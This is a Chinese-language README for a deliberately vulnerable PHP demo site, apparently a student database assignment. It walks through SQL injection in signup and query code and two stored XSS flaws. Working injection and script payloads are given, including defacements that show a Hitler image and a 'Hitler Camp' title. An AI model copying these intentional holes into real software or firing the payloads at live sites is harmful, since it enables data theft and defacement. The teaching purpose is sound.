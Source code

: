 # README

这是一个为了演示各个类型的 WEB 攻击的一个程序。

它通过 PHP 做后端，`boostrap` 做前端框架，原本是用来提交 shesl 的数据库系统的大作业。

## 漏洞简述

### SQL 注入

这是最常见，也是最具危害性的 WEB 漏洞。

在该项目中 `signup.php` 这个文件中，使用以下代码进行插入数据库操作，可以造成 `sql` 注入：

```php
$sql = "INSERT INTO users(Alias, email, password) VALUES (".
    $_POST["signup-username"].", ".$_POST["signup-email"].", ".md5($_POST["signup-password"]).");";

if( $conn->query($sql) == TRUE ) $info = "sign up successfully";
else $info = $conn->error;
```

这里可以通过联合查询并配合 `concat` 函数，脱出数据库中非 `users` 表单所有信息（因为 `insert into` 语句在 mysql 中无法联合查询本表）。一个可能的 `payload` 如下：

```mysql
# $_POST["signup-username"]=
htxmb', (select concat(coalesce(PName,'NULL'), ',', coalesce(HumanID,'NULL'), ',', coalesce(GName,'NULL')) from games where GameID=1), '68e109f0f40ca72a15e05cc22786f8e6'); #

# $_POST["signup-email"]=
shesl-meow@qq.com

# $_POST["password"]=
68e109f0f40ca72a15e05cc22786f8e6
```

实际执行的 `mysql` 语句如下：

```mysql
INSERT INTO users(Alias, email, password) VALUES('htxmb', (select concat(coalesce(PName,'NULL'), ',', coalesce(HumanID,'NULL'), ',', coalesce(GName,'NULL')) from games where GameID=1), '68e109f0f40ca72a15e05cc22786f8e6'); #', 'shesl-meow@qq.com', '22744961b84dc9c20cdd1c0e0f5e1a82');
```

其中：

- 利用了联合查询语句，可以将**任意查询的结果**赋值给用户的 `email` 信息。

- 此处使用的查询语句是 `games` 这个表格的 `PName`，`GName`，`HumanID` 的字符串拼接。使用 `coalesce` 函数的原因是：当被拼接字符串的一项为 `NULL` 时，结果会退化为 `NULL`。

- 注意该数据库是以 `md5` 存储密码，因此在填入密码时，需要填入密码的 `md5` 值：

  ```bash
  $ echo -n "HelloWorld" | md5sum
  68e109f0f40ca72a15e05cc22786f8e6 *-
  ```



再次登录后查看本账户的邮箱信息，可以查询到脱库的结果：

![1542638111499](./sql-injection-1.png)

### XSS 漏洞

#### 漏洞点 1

在登录之后会显示一个查询页面，将查询的信息显示在底下的 Query Result 搜索栏中：

- 实现这一过程的 `php` 代码大致如下（文件 `index.php`）：

  ```php+HTML
  <p id='query-result'>
  	<?= $_COOKIE["queryResult"] ?>
  </p>
  ```

- 提交 `form` 表单时指向的文件是 `queryblock.js`：

  ```javascript
  Qu[2].addEventListener('click',function(event){
      event.preventDefault();
      Qg[1].value = "";
      setCookie("queryResult", QueryUser( Qu[1].value ), 1);
      window.location.replace("../index.php");
  });
  ```

  它监听点击事件，并且将查询的结果直接设置到 `cookie` 变量中，并且重新加载 `index.php` 文件（这一点保证了数据库中的如果出现 `javascript` 代码，可以动态显示在网页上）

  他通过以下的 `ajax` 代码与 `php` 进行通信：

  ```javascript
  function QueryUser(inputname) {
      var result = "Your Query result will be print here.";
      $.ajax({
          type: "POST",
          url: '../php/queryUser.php',
          dataType: 'text',
          async: false,
          data:{"query-user": inputname},
  
          success: function(data){
              if(data != "") result = data;
          }
      });
      return result;
  }
  ```

- 进行数据库查询的 `php` 代码大致如下（文件 `queryUser.php`）：

  ```php
  if( $res1 = $conn->query("SELECT HumanID,email,Alias,GameID,gender FROM users WHERE Alias='".$inputkey."';") ){
      while( $row = $res1->fetch_assoc() ){
          foreach ($row as $key => $value) {
              if( !isset($value) ) $value = "null";
              if( $key == "GameID" ) $key = "Favorate Game";
              $Info = $Info.$key.": ".$value.";<br>";
          }
          $Info = $Info . "<br>";
      }
      $queryResult = $Info;
  }
  ```



因为该操作直接将数据库中的信息给显示到了屏幕上，所以如果我们的邮箱信息是 `javascript` 代码，那么其他用户在查询我们的账号时，便会执行我们的 `javascript` 代码。我们尝试以下的 `javascript` 代码，他可以更改图片的信息：

```javascript
ele = document.getElementsByName("query-image");
ele[0].childNodes[1].src = "https://upload.wikimedia.org/wikipedia/commons/e/e1/Hitler_portrait_crop.jpg";
```

 这是一个指向维基百科希特勒的图片，我们可以使用上面 `sql` 注入的方法，注册一个 email 为 `javascript` 代码的用户：

```mysql
# _POST["signup-username"]=
hacker', '<script>ele = document.getElementsByName("query-image");
ele[0].childNodes[1].src = "https://upload.wikimedia.org/wikipedia/commons/e/e1/Hitler_portrait_crop.jpg";</script>', '68e109f0f40ca72a15e05cc22786f8e6'); #
```

正常的页面显示如下：

![1542699400165](./xss-normal-1.png)

当查询用户名为 `hacker` 的信息时，左侧页面 `img` 被篡改为希特勒的照片：

![1542699513631](./xss-hack-1.png)

#### 漏洞点 2

注意到在网站的最后页面 `#CONTACT` 会显示用户的用户名信息，显示效果如下：

![1542700523486](./register-msg.png)

它的实现 `PHP` 代码如下：

```php+HTML
<span class='btn-block'>Register people:</span>
<div class="btn-group" role="group" aria-label="Basic example">
    <?php
    $conn = new mysqli("localhost", "root", "root");
    $conn->query("USE playermansystem;");
    if($res = $conn->query("select Alias from users"))
        while($row = $res->fetch_assoc())
            echo "<button type='button' class='btn btn-secondary'>".$row["Alias"]."</button>";
    ?>
</div>
```

同样是从数据库中查询用户名，直接将用户名信息置于屏幕上，根据前面的观察，我们知道，用户名中可以直接插入 `javascript` 代码。



我们尝试以下的 `javascript` 代码，可以更改网页的标题内容：

```javascript
ele = document.getElementsByName("head-title");
ele[0].innerHTML = "Welcome to <span class='brand'>Hitler Camp</span>";
```

因此可以通过以下的 `payload` 注册一个新账户：

```mysql
# _POST["signup-username"]=
hacker<script>ele = document.getElementsByName("head-title"); ele[0].innerHTML= "Welcome to <span class=\'brand\'>Hitler Camp</span>";</script>', 'hacker@qq.com', '68e109f0f40ca72a15e05cc22786f8e6'); #
```

发现网页的标题被篡改：

![1542702097204](./xss-hack-2.png)

